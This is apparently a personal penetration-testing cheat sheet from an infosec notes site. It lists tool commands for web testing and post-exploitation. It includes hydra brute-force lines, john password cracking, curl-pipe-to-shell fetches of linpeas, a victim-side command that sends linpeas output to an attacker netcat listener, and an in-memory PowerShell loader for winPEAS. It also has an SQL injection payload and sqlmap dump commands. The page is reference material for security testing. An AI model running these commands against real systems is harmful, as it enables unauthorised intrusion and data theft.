 ```yaml
---
layout: single
classes: #wide
title: "General Info"
sidebar:
    title: "General Info"
    nav: infosec
collection: infopages
permalink: /infosec/general/
toc: true
toc_sticky: true
author_profile: true
---
```


# Welcome
Hi, this page is because I can't for the life of me remember my options when I am trying to web-test.  

# General tips
flask -> usually jinja2  
```2> /dev/null``` - hides error output  

# Tmux
`tmux a` - attaches session
`tmux -S <name>` - attaches file session or creates one of that name

# Brute-Force
ffuf  
cme - SMB brute force tool  

John the ripper - cracking tool
* `john  --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt jonah.txt`

hydra:  
```
hydra -l usr -P pass.txt ssh://www.example.com  
hydra -l jennifer -P /usr/share/wordlists/rockyou.txt builder -s 8080 http-post-form "/login:j_username=jennifer&j_password=^PASS^&from=&Submit=:Invalid username or password"
```

# Listeners
wireshark - self explanitory  
nc - net cat is a good listner
* Example usage: nc -lvnp 

# Wordlists
/usr/share/wordlists/  
* /seclists

# Network 
```python http.server``` - v3 python  
* Spawns python server

netexec:  
* Network service exploitation tool
* Helps automate assessing large networks


# Linpeas & Winpeas
[Linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS):  
`curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh `  
`python -c "import urllib.request; urllib.request.urlretrieve('https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh', 'linpeas.sh')" `  

filter to host machine:  
`nc -lvnp 9002 | tee linpeas.out` # host  
`curl $ip:8000/linpeas.sh | sh | nc $ip 9002` # victim  


[Winpeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS):  
url =   
`$url = "https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany_ofs.exe" `  
One liner to download and execute winPEASany from memory in a PS shell  
`$wp=[System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany_ofs.exe" -UseBasicParsing | Select-Object -ExpandProperty Content)); [winPEAS.Program]::Main("") `

## LINPEAS VIEWING
`less -r <outputfile>` - color codes everythign properly

# Other
Pspy - inspect application  
`powershell -c` - allows for powershell command    
Exiftool - analyzing metadata


# Refrance links 
tbd

# SQL
`' or 1=1 -- -`  

## SQL Map
`sqlmap -r request.txt --dbms=<db> --dump`
- dumps off request to site, attempts to do a sqli

# SSH
`chmod 600 <key>`
`ssh -L <port>:website:80 <user>@myserver`  
- port forwarding, allowing access to website from myserver  
`ssh -R <port>:website:80 <user>@myserver`  
- reverse forwarding, allowing others to view your traffic


# Sockets
`ss -tulpn` (tcp, udp, listenting only, process using socket, dont respolve service names)  
 

# Post exploit
Exiftool - analyzing meta data
look for weird configs  
linpeas.sh big

1. `curl $ip:1111/linpeas.sh`
1. `find / -perm -u=s -type f 2>/dev/null` - suid bit finder


     
